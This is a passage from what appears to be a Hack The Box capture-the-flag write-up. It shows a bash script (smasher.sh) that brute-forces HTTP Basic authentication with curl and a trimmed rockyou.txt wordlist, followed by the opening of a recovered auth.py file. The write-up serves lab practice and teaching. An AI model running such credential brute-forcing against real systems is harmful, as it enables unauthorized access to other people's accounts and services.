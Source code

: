Hmm. There's a `backup` directory protected by Basic authentication.

### Cracking Basic Authentication

I wrote a simple `bash` script to brute-force basic authentication, using `curl` as the main driver. The first argument is the username, and the second argument is the password. Combine the script with GNU Parallel and you get a multi-threaded brute-force utility. We don't want the script to run forever, so when we get a 200 response code, we know that's the username and password.

<div class="filename"><span>smasher.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.135
USER=$1
PASS=$2

die() {
  killall perl &>/dev/null
}

RESULT=$(curl -s \
              -w %{http_code} \
              -o /dev/null \
              --user "$USER:$PASS" \
              http://$HOST/backup/)

if [ $RESULT -eq 200 ]; then
  echo "[+] Username: $USER, Password: $PASS"
  die
fi
```

I'm making a second guess here. I don't want to run the script against the entire `rockyou.txt` which has about 14M lines. I stripped down `rockyou.txt` to words which contain 8 to 9 characters in the `[a-z]` character set. It has 1.2 million lines which is much more manageable.

I got lucky. It took about 35 mins.


{% include image.html image_alt="f9752e72.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/f9752e72.png" %}


With that, we can finally see what's behind `/backup`.


{% include image.html image_alt="e29b58ae.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/e29b58ae.png" %}


<div class="filename"><span>auth.py</span></div>

~~~~python
#!/usr/bin/env python
import ses
from flask import session,redirect, url_for, request,render_template, jsonify,Flask, send_from_directory
from threading import Lock
import hashlib
import hmac
import os
import base64
import subprocess
import time

def get_secure_key():
    m = hashlib.sha1()
    m.update(os.urandom(32))
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/